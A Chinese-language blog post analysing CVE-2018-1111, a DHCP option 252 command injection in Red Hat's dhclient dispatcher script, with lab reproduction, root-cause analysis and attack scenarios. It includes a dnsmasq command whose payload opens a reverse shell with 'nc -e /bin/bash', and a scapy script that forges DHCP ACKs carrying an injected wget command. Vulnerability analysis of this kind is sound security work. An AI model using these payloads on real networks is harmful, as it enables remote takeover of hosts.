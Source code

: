 ```yaml
---
layout: post
title: "CVE-2018-1111 Red Hat DHCP客户端命令执行漏洞分析"
---
```


# 0x00 背景

[CVE-2018-1111](https://access.redhat.com/security/vulnerabilities/3442151)具体来说是DHCP client (dhclient) package中的一个脚本文件存在命令注入漏洞，由于DHCP是内网环境下没有认证的UDP数据包，所以攻击场景就是在内网环境下可以伪造DHCP服务器的响应，根据DHCP 252(Private/Proxy autodiscovery) string类型的option，将带单引号的string传入漏洞脚本，完成命令注入。

<!-- more -->

官方的影响版本是Red Hat6、7，实际测试影响的版本是CentOS 7和Fedora28，漏洞脚本则位于`/etc/NetworkManager/dispatcher.d/11-dhclient` (in Red Hat Enterprise Linux 7) 或 `/etc/NetworkManager/dispatcher.d/10-dhclient` (in Red Hat Enterprise Linux 6)。

# 0x01 PoC复现

搭建内网DHCP服务器是关键，CentOS 7作为客户端，Kali作为服务端，在vmware上可以使用同一内网取消自带的DHCP服务，virtualbox的环境配置也一样：

![][1] 

这里取消内置的DHCP服务器是为了我们方便伪造DHCP服务器的响应，和实际攻击场景略有不同。根据[DHCP协议](https://blog.csdn.net/windeal3203/article/details/50677166)，kali上和PoC的payload类似，这里我把租约设置为1min：

```shell
dnsmasq --interface=eth0 --bind-interfaces --except-interface=lo --dhcp-range=10.1.1.1,10.1.1.10,1m --conf-file=/dev/null --dhcp-option=6,10.1.1.1 --dhcp-option=3,10.1.1.1 --dhcp-option="252,x'&nc -e /bin/bash 10.1.1.1 1337 #"
```

CentOS7上使用[nmcli](https://access.redhat.com/documentation/zh-cn/red_hat_enterprise_linux/7/html/networking_guide/sec-using_the_networkmanager_command_line_tool_nmcli)来手动重启网卡连接：

```shell
nmcli con down id 'enp0s3'
nmcli con up id 'enp0s3'
```

在kali上进行抓包可以看到DHCP Discover、Offser、Request、ACK的发包请求与响应，最后成功反弹shell：
 
![][2]

# 0x02 PoC分析

在反弹shell后，可以ps看下payload的传递过程：

![][3] 

由于之前nmcli up连接的操作，[nm-dispatcher会](https://github.com/NetworkManager/NetworkManager/blob/master/dispatcher/nm-dispatcher.c)执行`/etc/NetworkManager/dispatcher.d`下面的脚本文件，对应在漏洞脚本11-dhclient中存在命令注入：

![][4]

我在这里将最后要执行的语句输出至文件中，可以看到最后的payload命令拼接情况：

![][5]

这里对于option 252 wpad的字符串分隔符单引号没有转义，闭合后导致命令注入。

PoC在CentOS7上测试成功，但在CentOS6上没有效果，根据原推中的[评论](https://twitter.com/PacketHunt/status/996837371898482689)可知，因为NetworkManager在起dhclient的时候会自动接上对应的conf文件，在CentOS6中DHCP Discover和Request并不会请求252的option，对应也不会解析伪造响应的252 option，也就无法造成命令注入：

![][6]
 
# 0x03 攻击场景

根据man NetwaorkManager 得知，其对不同的网络事件会执行/`etc/NetworkManager/dispatcher.d`下对应的脚本，所以只要能够让dhcp客户端重新获取ip就可以命令注入，思路有三种：

![][7]
 
1. 被动监听数据包，等到主机租约到期发送Request请求时，伪造响应数据包
2. 结合其他DOS漏洞，使主机重新获取dhcp ip
3. 伪造服务端发送DHCPFORCERENEW消息，使客户端重新获取dhcp ip，但此类型属于DHCP协议扩展，需要身份认证而且没有被客户端支持，[无法使用]
(https://stackoverflow.com/questions/28917135/how-to-force-all-of-the-dhcp-clients-to-renew)

最后给出一个伪造服务端响应的python 利用的示例代码（exploit-db也有[类似脚本](https://www.exploit-db.com/exploits/44652/)）：

```python
from scapy.all import *

def num_hex_str(n):
    num = '%02x' % n
    return num.decode('hex')

def fake_dhcp(pkt):
    sys_mac = '08:00:27:59:1b:51'
    cli_mac = pkt[Ether].src
    cli_mac_hex = ''.join([i.decode('hex') for i in cli_mac.split(':')])
    trans_id = pkt[BOOTP].xid
    for option in pkt[DHCP].options:
        if 'requested_addr' in option:
            req_ip = option[1]
            break
    req_ip = '10.1.1.6'
    shellcode = "x'&wget http://10.1.1.1:1337 #"
    payload = num_hex_str(252)+num_hex_str(len(shellcode))+shellcode+num_hex_str(255)

    print pkt[DHCP].options
    if ('message-type', 3) in pkt[DHCP].options:
        print 'hello'
        dhcp_ack = Ether(src=sys_mac, dst=cli_mac)/IP(src='10.1.1.1', dst=req_ip)/UDP(sport=67, dport=68)/BOOTP(op=2, xid=trans_id, ciaddr=req_ip, yiaddr=req_ip, chaddr=cli_mac_hex)/DHCP(options=[('server_id', '10.1.1.1'), ('message-type', 'ack'), ('lease_time', 120), ('subnet_mask', '255.255.255.0')])/payload
        sendp(dhcp_ack, iface='eth0', verbose=False)

def dhcp_callback(pkt):
    if DHCP in pkt:
        fake_dhcp(pkt)

sniff(prn=dhcp_callback, filter="udp", store=0)
```

在实际的攻击场景中Python发包会比服务器发包慢，无法欺骗客户端执行命令，可考虑使用C语言等更加快速的方式实现攻击。

[1]: https://wx3.sinaimg.cn/large/ee2fecafly1frwu4vebojj20e909ymyw.jpg
[2]: https://wx2.sinaimg.cn/large/ee2fecafly1frwu4z6ujqj20sp0f2dm0.jpg
[3]: https://wx3.sinaimg.cn/large/ee2fecafly1frwu52af5mj20k209278t.jpg
[4]: https://wx1.sinaimg.cn/large/ee2fecafly1frwu53bfjbj20ho09mdg9.jpg
[5]: https://wx1.sinaimg.cn/large/ee2fecafly1frwu54qs40j20e10fjjs1.jpg
[6]: https://wx3.sinaimg.cn/large/ee2fecafly1frwu59vidyj21fi0p3ajn.jpg
[7]: https://wx4.sinaimg.cn/large/ee2fecafly1frwu5c4bkkj219n08s0w6.jpg
